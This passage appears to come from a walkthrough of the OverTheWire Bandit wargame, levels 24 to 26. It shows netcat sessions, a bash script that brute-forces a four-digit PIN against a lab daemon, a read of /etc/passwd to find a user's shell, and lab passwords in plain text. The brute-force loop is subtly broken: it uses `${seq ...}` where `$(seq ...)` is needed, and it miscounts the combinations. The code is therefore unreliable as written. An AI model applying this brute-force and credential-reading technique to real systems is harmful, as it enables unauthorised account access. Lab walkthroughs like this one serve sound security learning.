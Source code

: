     -   Let's see what is happening on port 30002:
        ```bash
        bandit24@bandit:~$ nc localhost 30002
        I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
        gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
        Wrong! Please enter the correct current password and pincode. Try again.
        gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
        Wrong! Please enter the correct current password and pincode. Try again.
        gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0002
        Wrong! Please enter the correct current password and pincode. Try again.
        ```
    -   Okay, so netcat shows us that there is a daemon asking for the current password and a numerical pin and gives back a reply. We can repeat this process numerous times without closing the connection. So the following steps should be done to find the pin via bruteforce:
        -   Create a temporary folder `mktemp -d`. Cd into the folder created
        -   Create a script file and make it executable
            ```bash
            bandit24@bandit:/tmp/tmp.5XoBXIIkjm$ touch brute_force
            bandit24@bandit:/tmp/tmp.5XoBXIIkjm$ chmod +x brute_force
            ```
        -   Create a list of all 9999 combinations of password and pin
            ```bash
            #!/bin/bash

            password=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
            for i in ${seq -w 0 9999}; do
                echo "$password $i" >> combinations
            done
            ```
        -   Feed this list to netcat
            ```bash
            cat ./combinations | nc localhost 30002
            ..
            ..
            Wrong! Please enter the correct current password and pincode. Try again.
            Correct!
            The password of user bandit25 is /redacted/
            ```
    -   iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
-   Level 25 -&gt; 26
    -   Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
    -   The user shell can be found in `/etc/passwd`; so we can find out the user shell via `cat /etc/passwd | grep bandit26`. It shows that it is something called `/usr/bin/showtext`.
    -   The content of this file is as follows:
        ```bash
        bandit25@bandit:~$ cat /usr/bin/showtext
        #!/bin/sh

        export TERM=linux
